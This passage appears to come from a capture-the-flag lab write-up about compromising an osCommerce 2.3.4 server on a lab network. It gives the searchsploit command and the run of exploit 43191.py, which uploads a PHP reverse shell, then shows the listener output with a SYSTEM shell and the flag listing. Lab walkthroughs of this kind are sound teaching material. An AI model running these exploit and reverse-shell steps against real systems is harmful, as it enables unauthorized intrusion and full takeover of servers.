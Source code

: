 `searchsploit -m 43191.py`

Running the script gives an example usage:

```bash
Example: 43191.py -u http://localhost/path/to/osCommerce --auth=admin:admin_password -f shell.php
```

I run the exploit with the following command which uploads a reverse shell to the system. I use [**this multi os reverse shell**](https://github.com/pentestmonkey/php-reverse-shell):

`python2 43191.py -u http://10.10.50.2:8080/oscommerce-2.3.4 --auth=jdotinfo:password -f multi-os-rev-shell.php`

```
[+] Authentication successful
[+] Successfully prepared the exploit and created a new newsletter with nID 3
[+] Successfully locked the newsletter. Now attempting to upload..
[*] Now trying to verify that the file multi-os-rev-shell.php uploaded..
[+] Got a HTTP 200 Reply for the uploaded file!
[+] The uploaded file should now be available at http://10.10.50.2:8080/oscommerce-2.3.4/catalog/admin/multi-os-rev-shell.php
```

And navigating over to the provided URL gives us a shell on the box as system so we don't even need to escalate:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.50.2] 49611
SOCKET: Shell has connected!
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin>whoami         
nt authority\system
```

<br>

## Root Flag

Changing over to the administrators desktop shows us the root flag:

```
 Directory of C:\Users\Administrator\Desktop

11/27/2019  07:15 PM    <DIR>          .
11/27/2019  07:15 PM    <DIR>          ..
11/27/2019  07:15 PM                37 root.txt.txt
```

<br>

## Lab Password

And now we just need to get the password hash for user Lab and crack it.
